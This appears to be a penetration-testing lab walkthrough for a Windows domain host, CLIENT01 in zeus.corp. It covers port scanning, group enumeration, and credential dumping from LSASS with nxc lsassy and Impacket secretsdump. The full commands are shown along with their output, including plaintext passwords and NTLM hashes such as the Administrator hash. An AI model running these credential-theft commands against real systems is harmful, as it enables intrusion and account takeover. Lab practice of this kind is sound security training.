



# VM2 (CLIENT01)

## Nmap

```bash
nmap -Pn 192.168.158.159

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman

```

## Check Groups

```bash
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ===============================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```



```bash
# Grab Administrator Flag
# New user discovered: o.foller
```

## NXC remote dump credentials from LSASS (Live Memory)
```bash
nxc smb 192.168.158.159 -u 'Eric.Wallows' -p 'EricLikesRunning800' -M lsassy     

#Results
SMB         192.168.158.159 445    CLIENT01         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT01) (domain:zeus.corp) (signing:False) (SMBv1:None)
SMB         192.168.158.159 445    CLIENT01         [+] zeus.corp\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
SMB         192.168.158.159 445    CLIENT01         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         192.168.158.159 445    CLIENT01         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LSASSY      192.168.158.159 445    CLIENT01         Saved 9 Kerberos ticket(s) to /home/kali/.nxc/modules/lsassy
LSASSY      192.168.158.159 445    CLIENT01         zeus\o.foller decca5b9babc228de4cedeb29a6b9abf
LSASSY      192.168.158.159 445    CLIENT01         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LSASSY      192.168.158.159 445    CLIENT01         ZEUS.CORP\o.foller EarlyMorningFootball777
LSASSY      192.168.158.159 445    CLIENT01         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687

# o.foller hash: decca5b9babc228de4cedeb29a6b9abf
# Plain text password: o.foller:EarlyMorningFootball777
```



## Impacket Secrets Dump (Stored Secrets)

```bash
python3 secretsdump.py zeus.corp/Eric.Wallows:EricLikesRunning800@192.168.158.159

# Results
#CLIENT01
Administrator:500:...:a1fcb4118dfcbf52a53d6299aab57055:::
zeus\o.foller:EarlyMorningFootball777
```
